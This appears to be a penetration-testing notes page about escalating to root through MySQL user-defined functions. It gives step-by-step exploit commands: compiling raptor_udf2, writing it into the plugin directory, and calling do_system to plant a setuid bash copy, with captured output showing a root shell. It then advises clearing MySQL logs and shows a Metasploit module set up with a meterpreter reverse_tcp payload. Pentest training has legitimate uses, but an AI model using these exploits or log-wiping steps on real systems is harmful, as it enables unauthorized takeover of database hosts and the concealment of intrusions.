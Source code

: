 # MySQL

## 01 - Unix Shell

### 1.1 - Detect

Exploiting misconfigured services with root access such as MySQL databases can pose a real risk that an attacker can take full control. If the following requirements has been met. MySQL whatever if MySQL has password database or no authentication which makes things even easier for the hacker.

Install the following dependencies

`$ sudo apt install default-libmysqlclient-dev`

We have lookup via `searchsploit` tool with a set of local copies of the exploitdb that is stored on the hacker's machine

`$ searchsploit mysql user-defined function`

`$ searchsploit -x 1518`

This [MySQL exploit](https://www.exploit-db.com/exploits/1518) has comments that explains with the builtin function for `do_system()` in MySQL that has something to do with misconfigurations with root access that allows the attacker to take full control. Follow the instructions of what the author wrote to compile the exploit.

### 1.2 - Exploit

```
$ gcc -g -c raptor_udf2.c -fPIC
$ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

Once the exploit is ready. Authenticate with the MySQL credentials with root privileges

```
$ mysql -u root

mysql> SHOW VARIABLES LIKE '%plugin%';

mysql> SHOW VARIABLES LIKE '%secure_file_priv%';

mysql> USE mysql;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> CREATE TABLE newtbl(LINE BLOB);
Query OK, 0 rows affected (0.01 sec)

mysql> INSERT INTO newtbl VALUES(LOAD_FILE('/home/user/raptor_udf2.so'));
Query OK, 1 row affected (0.00 sec)

mysql> SELECT * FROM newtbl INTO DUMPFILE '/usr/lib/mysql/plugin/raptor_udf2.so';
Query OK, 1 row affected (0.00 sec)

mysql> CREATE FUNCTION do_system RETURNS INTEGER SONAME 'raptor_udf2.so';
Query OK, 1 row affected (0.00 sec)

mysql> SELECT do_system('cp /bin/bash /tmp/mysql-service; chmod +xs /tmp/mysql-service');
+----------------------------------------------------------------------------+
| do_system('cp /bin/bash /tmp/mysql-service; chmod +xs /tmp/mysql-service') |
+----------------------------------------------------------------------------+
|                                                                          0 |
+----------------------------------------------------------------------------+
1 row in set (0.01 sec)

user@debian:~$ ls -lh /tmp/mysql-service
-rwsr-s--x 1 root root 905K Jan 19 20:18 /tmp/mysql-service
user@debian:~$ /tmp/mysql-service -p
mysql-service-4.1# whoami
root
```

**TODO:** Write about this

Another way to exploit the MySQL service but this technique we'll be using it to transfer the file by copying the shared object file as in binary encoded text to execute MySQL query.

`$ searchsploit mysql user-defined`

`$ searchsploit -x 46249`

### 1.3 - Cleanup

TODO: Finish this info

Once it was successfully exploited. Get rid of the table you've created and clear the MySQL logs as well.

`mysql> TRUNCATE TABLE newtbl;`

## 02 - Metasploit

```
msf > use exploit/multi/mysql/mysql_udf_payload

msf exploit(multi/mysql/mysql_udf_payload) > options

Module options (exploit/multi/mysql/mysql_udf_payload): 

   Name              Current Setting  Required  Description 
   ----              ---------------  --------  ----------- 
   FORCE_UDF_UPLOAD  false            no        Always attempt to install a sys_exec() mysql.function. 
   PASSWORD                           no        The password for the specified username 
   RHOSTS                             yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit 
   RPORT             3306             yes       The target port (TCP) 
   SRVHOST           0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to l 
                                                isten on all addresses. 
   SRVPORT           8080             yes       The local port to listen on. 
   SSL               false            no        Negotiate SSL for incoming connections 
   SSLCert                            no        Path to a custom SSL certificate (default is randomly generated) 
   URIPATH                            no        The URI to use for this exploit (default is random) 
   USERNAME          root             no        The username to authenticate as 


Payload options (linux/x86/meterpreter/reverse_tcp): 

   Name   Current Setting  Required  Description 
   ----   ---------------  --------  ----------- 
   LHOST                   yes       The listen address (an interface may be specified) 
   LPORT  4444             yes       The listen port 


Exploit target: 

   Id  Name 
   --  ---- 
   0   Windows 


msf exploit(multi/mysql/mysql_udf_payload) > set target Linux

msf exploit(multi/mysql/mysql_udf_payload) > set rhosts <IP>

msf exploit(multi/mysql/mysql_udf_payload) > set username <username>

msf exploit(multi/mysql/mysql_udf_payload) > set password <password>

msf exploit(multi/mysql/mysql_udf_payload) > set lhost <IP>

msf exploit(multi/mysql/mysql_udf_payload) > run
```

## References

- [MySQL UDF Basics and Exploitation](https://blog.certcube.com/mysql-udf-basics-and-exploitation/)

- [Privilege Escalation with MySQL User Defined Functions](https://medium.com/r3d-buck3t/privilege-escalation-with-mysql-user-defined-functions-996ef7d5ceaf)

- [Lib MySQLUDF_Sys](https://github.com/mysqludf/lib_mysqludf_sys)

- [Database Takeover User-Defined Functions (UDF) for MySQL and PostgreSQL Github repository](https://github.com/sqlmapproject/udfhack)

- [MySQL Show Privileges Statement](https://www.tutorialspoint.com/mysql/mysql_show_privileges_statement.htm)